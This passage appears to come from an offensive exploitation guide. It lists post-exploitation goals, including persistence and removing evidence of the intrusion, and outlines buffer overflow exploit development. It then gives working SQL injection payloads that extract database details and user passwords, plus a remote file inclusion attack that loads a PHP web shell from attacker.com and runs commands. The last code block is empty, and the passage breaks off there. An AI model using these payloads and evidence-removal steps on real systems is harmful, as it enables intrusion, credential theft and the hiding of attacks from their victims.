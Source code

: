 Execute the exploit and manage the compromised system:

- **Execution Strategy**: Plan the optimal approach for deployment
- **Session Management**: Maintain and manage your access
- **Privilege Escalation**: Elevate privileges if necessary
- **Persistence**: Establish persistent access if required
- **Clean-up**: Remove evidence of exploitation

## Example: Manual Buffer Overflow Exploitation

### Research Phase
1. Identify vulnerable application and specific function
2. Understand how the buffer overflow works
3. Determine buffer size and memory layout

### Development Phase
1. Create pattern to identify exact offset
2. Locate return address in memory
3. Find usable JMP ESP instruction
4. Develop shellcode appropriate for target
5. Build final exploit structure

### Testing and Execution
1. Test exploit on identical test system
2. Adjust exploit based on test results
3. Execute on target system
4. Capture and manage shell access

## Example: Manual Web Application Exploitation

### SQL Injection
1. **Identify Vulnerability**:
   ```
   ' OR 1=1 --
   ```
2. **Extract Database Information**:
   ```
   ' UNION SELECT 1,database(),user(),version(),5 --
   ```
3. **Enumerate Tables**:
   ```
   ' UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables WHERE table_schema='target_db' --
   ```
4. **Extract Sensitive Data**:
   ```
   ' UNION SELECT 1,username,password,4,5 FROM users --
   ```

### Remote File Inclusion (RFI)
1. **Identify Vulnerability**:
   ```
   http://victim.com/page.php?include=http://attacker.com/shell.txt
   ```
2. **Create Malicious File**:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
3. **Execute Commands**:
   ```
   http://victim.com/page.php?include=http://attacker.com/shell.txt&cmd=id
   ```
4. **Establish Full Shell**:
   ```php
   ```
